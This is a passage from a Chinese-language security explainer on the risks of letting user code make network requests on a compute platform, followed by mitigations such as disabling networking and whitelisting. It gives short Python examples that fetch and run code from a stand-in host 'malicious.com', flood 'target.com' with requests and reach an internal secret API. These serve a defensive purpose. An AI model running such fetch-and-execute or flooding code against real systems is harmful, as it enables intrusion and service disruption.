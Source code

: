 3. **恶意代码注入与执行**  
   用户可能通过网络请求下载恶意代码并在平台上执行。例如：
   ```python
   import urllib.request
   import os
   urllib.request.urlretrieve("http://malicious.com/malware.py", "malware.py")
   os.system("python malware.py")  # 执行恶意代码
   ```
   这可能导致平台被入侵、数据被窃取或系统被破坏。

4. **攻击外部服务**  
   用户可能利用你的平台发起对外部服务的攻击，例如：
   - **DDoS 攻击**：通过高频请求使目标服务不可用。
   - **SQL 注入或 XSS 攻击**：通过网络请求向目标服务器发送恶意 payload。
   - **爬虫滥用**：未经授权爬取目标网站的数据，可能导致你的平台 IP 被封禁。

   例如：
   ```python
   import requests
   for i in range(10000):
       requests.get("http://target.com/api")  # 发起大量请求攻击目标服务
   ```

5. **绕过访问控制**  
   用户可能通过网络请求访问平台内部的私有服务（例如内网 API、数据库、缓存服务等），从而绕过访问控制。例如：
   ```python
   import requests
   response = requests.get("http://internal-api:8080/secret-data")  # 访问内网服务
   ```
   如果你的平台未正确隔离网络环境，这可能导致严重的安全漏洞。

6. **法律与声誉风险**  
   如果用户利用你的平台发起非法活动（如攻击他人服务器、爬取受版权保护的内容等），可能会导致：
   - 你的平台 IP 被目标服务封禁。
   - 你的平台被视为攻击源，面临法律诉讼或监管处罚。
   - 你的平台声誉受损，用户流失。

7. **供应链攻击**  
   用户可能通过网络请求从不受信任的源下载依赖包或脚本，并在平台上执行。例如：
   ```python
   import requests
   exec(requests.get("http://malicious.com/evil-script.py").text)  # 动态执行恶意代码
   ```
   这可能导致平台被植入后门或恶意软件。

---

### **三、如何降低网络请求带来的风险？**

为了保护你的计算平台，建议采取以下安全措施：

1. **禁止网络请求**  
   - 在沙箱环境中禁用网络访问。例如，可以通过防火墙规则或网络策略阻止所有出站请求。
   - 如果使用容器化技术（如 Docker），可以在容器中禁用网络接口（例如，使用 `--network none` 选项）。

2. **代码审查与白名单**  
   - 在用户提交代码后，扫描代码中是否包含网络请求相关的函数（如 `urllib.request.urlopen`、`requests.get` 等），并禁止执行。
   - 如果必须允许某些网络请求，可以设置 URL 白名单，仅允许访问受信任的域名或 IP。
